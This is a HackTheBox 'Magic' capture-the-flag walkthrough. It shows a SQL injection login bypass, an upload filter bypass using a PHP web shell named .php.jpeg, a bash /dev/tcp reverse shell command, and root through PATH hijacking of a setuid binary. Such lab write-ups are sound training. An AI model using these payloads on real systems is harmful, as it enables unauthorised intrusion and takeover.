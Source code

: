 # **HACKTHEBOX – MAGIC WRITEUP**

![](logo.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.

![](/nmap.png)


The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.

![](/nmap-allports.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.

![](/homewebsite.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.
![](/image-on-website.png)


# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](/login.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](/gobuster.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](/sqlinjection.png)

We got logged in!

![](/upload.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](/errorupload.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](/aaa.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](/upload-success.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](/access-thefile.png)

I successfully access the file. Now I will try injecting a command.

![](/injectcmd.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c "bash -i >& /dev/tcp/10.10.14.2/9001 0>&1"

I set up a listener on port 9001, click send and we got a shell as www-data.

![](/reverseshell.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](/db-creds.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we can access the database and get more information.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

Dumping the database &quot;Magic&quot; gives more credentials.

![](/creds-inside-db.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](/find-user.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](/find-group.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](/strace.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](/bash-payload.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](/exploit-path.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](/root.png)
